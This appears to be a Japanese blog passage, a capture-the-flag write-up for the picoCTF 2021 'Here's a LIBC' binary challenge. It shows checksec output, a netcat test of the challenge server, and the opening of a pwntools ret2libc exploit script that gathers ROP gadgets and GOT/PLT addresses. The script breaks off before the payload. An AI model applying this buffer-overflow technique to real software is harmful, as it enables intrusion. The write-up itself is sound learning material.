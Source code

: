 <pre>
$ checksec vuln
[*] '/home/captureamerica/OneDrive/CTF/picoCTF_2021/Binary/Heres_a_libc/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  './'
</pre>

<br />
実際に繋いでみて、動作確認。入力した文字列を所々大文字にして表示するようです。

<pre>
$ nc mercury.picoctf.net 49464
WeLcOmE To mY EcHo sErVeR!
hoge
HoGe
fuga
FuGa
</pre>

<br />
まずはオフセットをゲットしようと思ったんですが、Kaliではもらったバイナリが動きませんでした。

<pre>
$ ./vuln
Segmentation fault
</pre>

ということで、gdbも当然うごかなかったです。

<br />

ちょっとズルして、他のwriteupから136バイトなのを確認。

<br />

書いたコード (その１)

{{< highlight c "linenos=table,hl_lines=36" >}}
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(os='linux', arch='amd64')
context.log_level = 'critical'

host, port = 'mercury.picoctf.net', 49464
s = remote(host, port)
elf = ELF('./vuln')

ret = next(elf.search(asm('ret')))
pop_rdi = next(elf.search(asm('pop rdi; ret')))
got_puts = elf.got["puts"]
plt_puts = elf.plt["puts"]
addr_main = elf.symbols["main"]
